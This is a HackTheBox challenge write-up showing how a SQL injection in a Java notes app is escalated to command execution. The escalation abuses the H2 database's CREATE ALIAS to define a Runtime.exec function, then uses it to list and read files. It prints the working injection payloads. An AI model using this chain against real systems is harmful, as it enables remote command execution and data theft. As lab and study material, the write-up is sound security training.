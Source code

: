 ```yaml
---
title: Pentest Notes
tags:
  - HackTheBox
  - Challenge
  - Easy
  - SQLi
  - H2_Database
  - Command-Injection
---
```

![](Pasted%20image%2020241115171026.png)

I found the creds `user:123` in the source code. Analyzing the code I discovered a basic SQLi vulnerability:

```java
String query = String.format("Select * from notes where name ='%s' ", name);
```

If we put: `hello' OR 1=0 -- -` we've got it. I dumped all the tables, but didn't found anything, so I managed that might be something harder. Inspecting he source further I found that an H2 Java SQL database was in use:

```shell
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

So I searched for "*H2 database command injection through sqli*", and found [this article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
- I've created a note about it :D -> [H2 databases 🥁](/notes/h2_databases.md)

Basically, if I capture the petition with burp and **Do intercept** the petition I can modify the POST parameter and inject there an ALIAS:

- First I create the alias:

```sql
SQL Injection' or 1=0; CREATE ALIAS FUCKED AS '  
String fucked(String cmd) throws java.io.IOException {  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");  
    return s.hasNext() ? s.next() : "";  
}';-- -
```

- Then I call it by inserting a command in the notes table (I spend two days to manage this out xd):

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('id')); --
```

- Then I performed a UNION SQLi to check if the command output was written to the table:

```shell
SQL Injection' OR 1=0 UNION SELECT * from notes -- -
```

![](Pasted%20image%2020241115172002.png)

> *BINGO, BANGO, BONGO!* We got this!

So we can check the `/` directory for the flag (it name is random):

![](Pasted%20image%2020241115172115.png)

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('ls /')); --
```

![](Pasted%20image%2020241115172158.png)

So in my case, the flag is called `JN8fe3XRqTYK_flag.txt`, so I cat it:

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('cat /JN8fe3XRqTYK_flag.txt')); -- -
```

> And got the flag!

![](Pasted%20image%2020241115172319.png)

==Challenge completed!==
